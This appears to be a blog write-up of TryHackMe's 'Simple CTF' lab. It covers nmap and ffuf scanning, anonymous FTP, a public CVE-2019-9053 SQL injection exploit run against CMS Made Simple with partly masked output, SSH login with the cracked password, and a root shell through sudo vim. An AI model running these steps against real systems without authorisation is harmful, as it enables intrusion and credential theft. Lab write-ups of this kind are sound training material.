




+++
date = '2025-08-18T15:26:12+05:30'
draft = false
title = 'Simple CTF'
+++

# Simple CTF - TryHackMe

## How many services are running under port 1000?

To know what services are running on the ports, we can use nmap, a network mapping tool. Here's the command I used:

```bash
nmap -sV -sC <ip> -p- -T4
```

Here's what the command does:

```
sV - probes for service and version info
sC - runs scripts against the port (default scripts)
-p- specifies to scan all the ports
T4 - makes the scan run faster taking less time
```

A scan of all the ports can take some time, so you can omit the `-p-` option for now.



We can see three ports open: 21, 80 and 2222, but the question asks for ports under 1000, which is 2.

## What is running on the higher port?

From the nmap scan we can see that SSH is running on the higher port.

## What's the CVE you're using against the application?

In the nmap scan we can notice that the FTP server allows for anonymous logins. FTP allows for file sharing in a network, with anonymous logins, we can see the files without being an authorized user.



We can see a note left by someone, here's the contents of the file:

"Dammit man... you're the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!"

This tells us that brute force is an option if we come across a hash or a login page.

Opening the webpage that's running on port 80, we can see the default Apache2 homepage. In the Nmap scan, we can also see that it discovered robots.txt as a page we can visit. This was because we ran the default scripts on nmap. Here's the line we're interested in:

```
Disallow: /openemr-5_0_1_3
```

But when we visit the URL, it doesn't exist and turns out to be a rabbit hole that leads us nowhere.

After that I tried to search for hidden directories using ffuf and I found a hidden page:

```bash
ffuf -w wordlist.txt -u http://target/FUZZ
```

```
-w wordlist to use
-u url of the page (FUZZ specifies the place to substitute)
```



## To what kind of vulnerability is the application vulnerable?

Going to `/simple`, we see that it's running something called "CMS Made Simple", the important information is the version which is 2.2.8. Googling for exploits we see that it's vulnerable to a [SQL Injection (SQLi) attack](https://www.exploit-db.com/exploits/46635).

I am going to use [this](https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit) GitHub repo code in order to perform the attack and get the credentials:

```bash
python exploit.py -u http://ip/simple --crack -w best110.txt
[+] Salt for password found: 1dac0d**********
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01d4468b****************
[+] Password cracked: ******
```

## Where can you login with the details obtained?

We can now use the credentials we just cracked to log into SSH. This is a common example of re-using the same credentials for everything.

```bash
ssh mitch@ip -p 2222
```

## What's the user flag?

The user flag can be found in the user's home directory:

```bash
cat user.txt
```

## Is there any other user in the home directory? What's its name?

Going to `/home`, we see another user by the name of **sunbath**.

## What can you leverage to spawn a privileged shell?

Checking what commands we can run as root on the server, we can see vim which can be run as root with no password.

```bash
$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
```

## What's the root flag?

To escalate our privileges to root, we can check GTFObins and search for vim. We can easily spawn a root shell by following the instructions provided on [their page](https://gtfobins.github.io/gtfobins/vim/), it's a simple command:

```bash
sudo vim -c ':!/bin/sh'
```

Once we're root, we can find the root flag in the root user's home directory:


